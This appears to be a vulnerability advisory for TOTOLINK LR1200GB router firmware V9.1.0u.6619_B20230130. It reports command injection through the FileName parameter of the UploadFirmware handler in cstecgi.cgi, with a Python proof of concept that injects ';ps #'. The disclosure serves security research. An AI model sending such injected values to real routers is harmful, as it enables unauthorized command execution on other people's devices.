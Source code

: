 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `UploadFirmware` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `mv %s %s` and be excuted by `doSystem` function, which allows an attacker to excute any command.
![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "FileName":";ps #",
    "topicurl":"UploadFirmwareFile",
    "token":"00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)